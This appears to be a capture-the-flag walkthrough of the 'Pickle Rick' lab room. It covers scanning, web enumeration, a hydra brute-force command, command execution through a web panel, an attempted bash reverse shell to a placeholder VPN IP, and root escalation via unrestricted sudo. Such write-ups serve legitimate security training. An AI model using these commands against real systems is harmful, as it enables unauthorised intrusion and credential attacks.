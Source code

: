 # Pickle Rick

IP: 10.10.0.135

### Initial scan

`nmap -sC -sV -oN nmap.txt -vv -p- 10.10.0.135`

`-sC` -> default scripts

`-sV` -> tell us the verisons of running services

`-oN nmap.txt` -> write the ouput into a file called 'nmap.txt'

`-vv` -> set verbosity to level 2

`-p-` -> scan all ports

### Open Ports

80 meaning an http server and 22 which is ssh

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:12:ce:df:f7:9a:2b:9e:97:7d:c1:39:e4:3c:df:48 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4foPbmOjfcIrXu3IJCBFcHjm0rHko8N1WsXQLum5p740xUrBgcL8tfW1HY9hkyuK+jcUX5YLSUVFvNDnMFYwD4trWdieY+XvKFQg+OApJBE3THPkiXhkU8FfiubEsQ8UD7gEEHZsxjKL8PMrsCQIxpY+r7ClLFT3KPry82IaZC4Iecq6SZLXJUCi84ZzMBV0+zrV3QH+5U3ywVmBGu9fJiEbBoHaOm51/vhNx7451U6Socojjr2md3kr1VnPYmHiECg/D7P9NG9p+UD4ZmGdjkPSxYOLVb9qW7VKh/QPro/8TKz3Xgsz2cM0VwOIwKy2LvfbkPvXjW002pPcTLGGp
|   256 1e:83:24:55:dc:41:c3:14:08:0d:f8:2b:ab:40:bf:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFHxx3PVd2BRCPBf2gOQtxGB8qjtct/augcA5gsxgoM9wm+rufC0o5/8TWrcZIwxYOhuVwGzGqhOTDo2Rso3oZk=
|   256 ff:20:ec:03:c6:82:02:7b:1f:5a:cd:fb:65:5c:ee:e7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMVagIW9FgwDEjyxoefbfWBpRdA3e2hkmGs/1PAplz0M
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration

Using my tool webctf, we can see that the page has a username in the comments!

```
webctf http://10.10.0.135/ --comments

=============
COMMENTS
=============

[+] 1 :  

    Note to self, remember username!

    Username: R1ckRul3s

```
We have a username, time to start gobuster!

`gobuster dir -u http://10.10.0.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25`

running gobuster like this didnt get me much, so I ran dirbuster. Looked for extensions `.php .js .txt .py`

#### Dirbuster results

Only the interesting stuff

```
/login.php
/portal.php
/robots.txt
```
`portal.php` redirects to `login.php`.... just like a portal!

We get a login page, so time for some burp.

When sending a login request, the following parameters are sent to the server

`username=R1ckRul3s&password=p1ckl3&sub=Login`

This screams hydra to me.

`hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt http://10.10.0.135 http-post-form/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -f -t 15`

Since this wasn't returning anything for quite sometime I looked at robots.txt 

```
Wubbalubbadubdub
``` 
Could this be a password? (Hint: Yes)

## What is the first ingredient Rick needs?

We have entered into `/portal.php` what could we do here? 

The welcome page has a command panel, lets try and use it!

Before that, I quickly checked out the sourc code, found an interesting comment
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
This turned out to be a dead end. So i typed `ls` into the command prompt and viola

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
at /Sup3rS3cretPickl3Ingred.txt we have the first ingredient, and there is also a clue.txt!

## Whats the second ingredient Rick needs?

clue: `Look around the file system for the other ingredient.` So let's do that. By trying `cd ..; pwd` I found out that we can move around. Could we maybe get a reverse shell??

`/bin/bash -i >& /dev/tcp/YOUR_THM_VPN_IP/8888 0>&1` and ran `nc -lvnp 8888` in another tab. But no luck.

After playing around a bit, I found `/home/rick/second ingredient` but the `cat` command is disabled! 
What else could we do? Well, how about a python http server. 

`which python3` shows that python3 is installed, so lets try it.


<b>WARNING dont do this! I had to restart my room instance</b>

I tried being creative, wasnt worth it :D Just use the `less` command on the file.

`cd /home/rick; python3 -m http.server --bind 10.10.0.135 8888` the site hangs, so it is running! Visit it on the correct port, and viola again. 

## Whats the final ingredient Rick needs?

Now, how can we escelate to the root user and find our last ingredient?

running `sudo -l` to see what we can do as sudo.... well

```
User www-data may run the following commands on ip-10-10-238-28.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can do anything. So lets try `sudo -la /root/`

Output:

```
.
..
.bashrc
.profile
.ssh
3rd.txt
snap
```
Now just `sudo less` the file, and there we go!
